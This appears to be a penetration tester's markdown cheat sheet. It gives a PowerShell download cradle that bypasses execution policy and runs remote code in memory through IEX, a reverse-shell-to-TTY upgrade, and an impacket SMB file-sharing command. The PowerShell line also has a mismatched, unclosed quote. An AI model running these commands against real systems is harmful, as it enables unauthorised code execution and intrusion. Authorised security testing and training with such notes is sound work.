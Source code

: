 # Notes
## PowerShell
### To load a PS module into the memory
```powershell
powershell.exe -exec bypass -Command “IEX (New-Object Net.WebClient).DownloadString($URL);
# Here call the modules you want to execute, depending on the usage of what you have downloaded
```
## Utils
## Shell to TTY
```bash
python -c "import pty;pty.spawn('/bin/bash')"
Ctrl + z
stty raw -echo
fg
```
## Sharing files with Windows machine
**NOTE:** This technique is usefull also to share files with any Windows VM *(or the parent host)* 
```bash
impacket-smbserver share <path> -smb2support
```
